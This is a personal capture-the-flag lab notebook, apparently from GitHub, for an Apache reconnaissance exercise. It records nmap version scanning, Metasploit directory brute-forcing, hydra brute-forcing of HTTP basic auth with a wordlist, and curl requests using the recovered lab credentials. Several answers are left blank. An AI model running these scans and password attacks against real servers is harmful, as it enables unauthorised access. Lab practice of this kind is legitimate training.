




# Apache Recon : Dictionary

>  **target=192.167.168.3**

1. What is the version of the running web server?
      \> nmap -p 80 -sV $target
2. What page is hosted on the running web server?
      \> Apache default page : It works !
3. Perform bruteforce on web server directories and list the names of directories found. Use brute_dirs metasploit module.
      \> dir, poc, 
4. Flags are kept in both the directories. Try to retrieve the flag from “dir” directory using curl.
      \> Nope
5. The “dir” directory is using some kind of protection. What protection is that?
      \> curl -I $target/dir
      \> 
6. Now try to retrieve the flag from “poc” directory using curl.
      \> Same 
7. The “poc” directory is also using some kind of protection. What protection is that?
      \> 
8. The web server belongs to users “alice” and “bob”. And, they have used /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt dictionary to set the password.  Find the credentials required to access “dir” directory.
      \> hydra -L user.txt -P <path> -s 80 -f $target
      \> 
9. Fetch the flag from “dir” directory.
      \> curl -u bob:qwerty $target/dir/

10. Again, the web server belongs to users “alice” and “bob”. And, they have used /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt dictionary to set the password.  Find the credentials required to access “poc” directory.
       \> 
11. Fetch the flag from “poc” directory.
       \> curl -u alice:admin $target/poc/